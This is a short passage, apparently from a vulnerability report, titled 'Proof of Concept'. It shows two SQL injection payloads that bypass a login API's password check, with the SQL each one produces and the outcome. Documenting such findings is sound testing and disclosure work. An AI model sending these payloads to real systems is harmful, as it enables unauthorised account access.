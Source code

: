 #### Proof of Concept

**Attack 1: Authentication Bypass**
```json
POST /api/auth/login
{
    "username": "admin' OR '1'='1",
    "password": "anything"
}
```

**Resulting SQL:**
```sql
SELECT * FROM users WHERE username = 'admin' OR '1'='1' AND password = 'anything'
```

**Result:** Login succeeds without valid password because `'1'='1'` is always true.

**Attack 2: Comment-Based Bypass**
```json
POST /api/auth/login
{
    "username": "admin'--",
    "password": "ignored"
}
```

**Resulting SQL:**
```sql
SELECT * FROM users WHERE username = 'admin'--' AND password = 'ignored'
```

**Result:** Everything after `--` is commented out, password check is bypassed.

**Evidence:**  
![SQL Injection Bypass](screenshots/04-sql-injection-bypass.png)  